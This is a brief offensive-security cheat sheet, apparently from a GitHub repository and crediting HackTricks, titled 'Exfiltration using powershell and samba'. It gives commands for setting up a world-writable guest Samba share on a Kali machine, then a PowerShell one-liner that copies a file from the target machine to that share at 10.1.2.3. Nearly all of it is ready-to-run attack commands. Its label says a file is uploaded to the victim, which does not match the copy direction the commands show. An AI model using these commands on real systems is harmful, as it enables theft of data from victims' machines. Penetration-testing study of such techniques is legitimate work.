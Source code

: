 # Exfiltration using powershell and samba(Linux)

## On Kali

Upload a file to the victim's host[^1] 

```bash
apt-get install samba
mkdir /tmp/smb
chmod 777 /tmp/smb

#Add to the end of /etc/samba/smb.conf this:
[public]
    comment = Samba on Ubuntu
    path = /tmp/smb
    read only = no
    browsable = yes
    guest ok = Yes
    
    
#Start samba
service smbd restart
```

## On the target machine
```powershell
start powershell -c "Copy-Item -Path 'C:\<path>\file.txt>' -Destination '\\10.1.2.3\public\'"
```
    
[^1]: [Hacktricks.xyz](https://book.hacktricks.xyz/exfiltration#upload-file-to-victim)